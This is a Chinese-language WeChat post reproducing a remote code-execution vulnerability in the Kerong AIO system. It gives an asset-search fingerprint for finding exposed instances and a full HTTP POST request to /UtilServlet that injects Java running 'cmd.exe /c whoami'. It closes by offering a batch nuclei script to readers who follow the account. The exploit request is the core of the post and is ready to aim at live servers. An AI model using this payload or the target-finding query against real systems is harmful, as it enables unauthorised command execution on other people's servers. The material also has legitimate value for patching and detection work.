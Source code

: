 #  【漏洞复现】科荣AIO系统存在代码执行漏洞   
devildollking  新势界NewFrontier   2025-01-13 03:01  
  
![](https://mmbiz.qpic.cn/mmbiz_png/nKibbsr7q5Uoic4HqaOR77KgQOr062ubgGR7k9HhTqwJWan2KibZRiczhxkEzyKMBGO4LQDicBMFMPcJgp3RI6ia8IzA/640?&random=0.2500397116661788&random=0.331463449447553&random=0.8263159340656969 "")  
  
免责声明  
  
 该公众号大部分文章来自作者日常学习笔记，也有部分文章是经过作者授权和其他公众号白名单转载，未经授权，严禁转载，如需转载，联系开白。请勿利用文章内的相关技术从事非法测试，如因此产生的一切不良后果与文章作者和本公众号无关。公众号现在只对常读和星标的公众号才展示大图推送，建议把公众号设为星标，否则可能就看不到啦！感谢各位师傅。  
  
  
![](https://mmbiz.qpic.cn/mmbiz_png/nKibbsr7q5Uoic4HqaOR77KgQOr062ubgGR7k9HhTqwJWan2KibZRiczhxkEzyKMBGO4LQDicBMFMPcJgp3RI6ia8IzA/640?&random=0.11349382888065818 "")  
  
资产收集  
```
body="changeAccount('8000')"
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HboZfk6j917OIDfjTLzkmED8YT3lPtw9K7q5PHqyQIpSzAyficgMAg0Y6fjl0yzUYkKfFtFlibPbyrSwvWygPib7A/640?wx_fmt=png&from=appmsg "")  
  
发送请求  
```
POST /UtilServlet HTTP/1.1
Host: 
User-Agent:Mozilla/5.0(Windows NT 6.1; WOW64)AppleWebKit/534.57.2(KHTML, like Gecko)Version/5.1.7Safari/534.57.2
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
Content-Type: application/x-www-form-urlencoded
Content-Length:322
operation=calculate&value=BufferedReader+br+%3d+new+BufferedReader(new+InputStreamReader(Runtime.getRuntime().exec("cmd.exe+/c+whoami").getInputStream()))%3bString+line%3bStringBuilder+b+%3d+new+StringBuilder()%3bwhile+((line+%3d+br.readLine())+!%3d+null)+{b.append(line)%3b}return+new+String(b)%3b&fieldName=example_field
```  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_png/HboZfk6j917OIDfjTLzkmED8YT3lPtw9SGSQEia02kRJxZQuhWHAL6J5uH4HcMM89KO97wpJo5icNRviaWGNYvdCw/640?wx_fmt=png&from=appmsg "")  
  
![](https://mmbiz.qpic.cn/mmbiz_png/nKibbsr7q5Uoic4HqaOR77KgQOr062ubgGR7k9HhTqwJWan2KibZRiczhxkEzyKMBGO4LQDicBMFMPcJgp3RI6ia8IzA/640?&random=0.11349382888065818 "")  
  
批量验证脚本  
  
关注公众号  
并回复   
“ZH-2025-01-13-001  
”  
 即可获得该漏洞nuclei脚本  
  
  
  
